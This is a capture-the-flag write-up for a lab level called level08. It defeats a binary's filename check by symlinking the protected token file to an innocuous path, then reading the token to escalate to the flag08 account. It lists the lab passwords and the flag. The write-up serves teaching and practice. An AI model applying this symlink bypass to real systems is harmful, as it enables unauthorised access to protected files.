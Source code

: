 # level08

## Vulnerability: Naming rules trickery by linking

level08's password: `fiumuikeil55xe9cu4dood66h`

1. examinate existing files and permissions

```bash
ls -la
```

shows that the level08 executable belongs to flag08 group, token is flag08:flag08

2. get the executable (from an external device), decompile it using [retdec](https://github.com/avast/retdec) and examine the resulting code

```bash
scp -P 4242 level08@<host>:level08 .
retdecomp level08
```

shows that a simple input validation is required to open the file and print its content : it needs not to contain `token`

4. link a file fullfiling the input validation to the token

```bash
ln -s ~/token /tmp/exploit
```

5. pwn the flag

```bash
./level08 /tmp/exploit
```

gives flag08's password: `quif5eloekouj29ke0vouxean`

```bash
su flag08
quif5eloekouj29ke0vouxean
getflag
```

gives flag: `25749xKZ8L7DkSCwJkT9dyv6f`
